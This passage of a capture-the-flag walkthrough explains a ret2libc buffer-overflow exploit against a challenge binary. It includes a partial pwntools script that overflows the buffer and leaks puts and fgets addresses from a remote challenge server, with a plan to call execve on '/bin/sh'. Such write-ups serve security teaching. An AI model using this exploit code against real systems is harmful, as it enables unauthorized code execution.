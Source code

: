 Now that we know the base of libc, getting any function is easy. We just take the base, find the offset of the function we want, and add them together. If system() is at 0x55410, we just add that to libc base to find where it is in our program. Remember that libc base changes each time we run the program, so we need to re-calculate this address each time we run.

We're coming to the end of our exploit now - All we need to do now is grab a function that will get us code execution, and grab an argument to that function that will spawn us a shell. Fortunately, libc has both!

![Untitled%2013.png](Untitled%2013.png)

libc has it's own instance of "/bin/sh", which is really handy.

But, we can't see `execve()` on the list of offsets, and this is what I want to use to get a shell. So, the best way to grab the offset is to let pwntools do it. We'll download a copy of the libc we think is running on the box, and then grab `execve()`'s address using pwntools' symbols[] functionality. [libc.rip](http://libc.rip) makes it easy to download a copy of any libc you want.

![Untitled%2014.png](Untitled%2014.png)

Once we've got this, we can use pwntools to query it. Let's add some lines to our solve script to do this. We'll also add the address for binsh, since [libc.rip](http://libc.rip) tells us where it is.

```python
from pwn import *

cheese = remote("35.246.53.125", 10005) #The location of the binary to be run
context = ELF("./easy_cheesy") #Our local binary, where we'll grab symbols from
libc = ELF("./libc6_2.31-0ubuntu9.1_amd64.so")

main = p64(context.symbols["main"])
pop_rdi = p64(0x401303) #An RDI gadget in the binary
putsGOT = p64(context.got["puts"]) #The real address of puts() in memory
putsPLT = p64(context.plt["puts"]) #The PLT address of puts(). Jumping here will call puts() for us.
fgetsGOT = p64(context.got["fgets"])
junk = (("A")*72).encode() #Encode our payload so we can concatenate it with the bytes-format of packed addresses

stage_1 = junk + pop_rdi + putsGOT + putsPLT + main
cheese.sendline(stage_1) #Send it
cheese.recvline()
leaked_puts = u64(cheese.recvline()[:-1].ljust(8, b'\x00')) #Grab the output from puts(), chop off the nullbyte
log.info(f'Leaked puts: {hex(leaked_puts)}') #We now have a useable address

stage_2 = junk + pop_rdi + fgetsGOT + putsPLT + main #Same idea, but with fgetsGOT address instead of puts()
cheese.sendline(stage_2)
cheese.recvline()
```